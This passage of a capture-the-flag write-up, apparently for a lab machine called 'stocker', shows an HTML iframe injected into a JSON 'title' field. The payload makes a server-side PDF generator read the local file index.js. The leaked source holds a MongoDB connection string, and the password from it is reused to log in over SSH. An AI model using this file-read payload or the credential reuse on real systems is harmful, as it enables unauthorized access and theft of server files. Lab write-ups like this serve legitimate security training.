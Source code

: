 I was able to read files from the server. From the error I received when I tried JSON on the login page, I knew the path for the application. I used it to read common JavaScript files.

```json
"title": "<iframe src='file:///var/www/dev/index.js' width=500 height=700> ",
```

The application code was in 'index.js'.

```js
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI =
"mongodb://dev:REDACTED@localhost/dev?
authSource=admin&w=1";
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(
session({
secret: randomBytes(32).toString("hex"),
resave: false,
saveUninitialized: true,
store: MongoStore.create({
mongoUrl: dbURI,
}),
})
);
```

The file contained the credentials for the MongoDB connection. I tried using the password to SSH as 'angoose'. 

```bash
$ ssh angoose@target
The authenticity of host 'target (10.10.11.196)' can't be established.
ED25519 key fingerprint is SHA256:jqYjSiavS/WjCMCrDzjEo7AcpCFS07X3OLtbGHo/7LQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
angoose@target's password:

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

angoose@stocker:~$ ls
user.txt

angoose@stocker:~$ cat user.txt
REDACTED
```
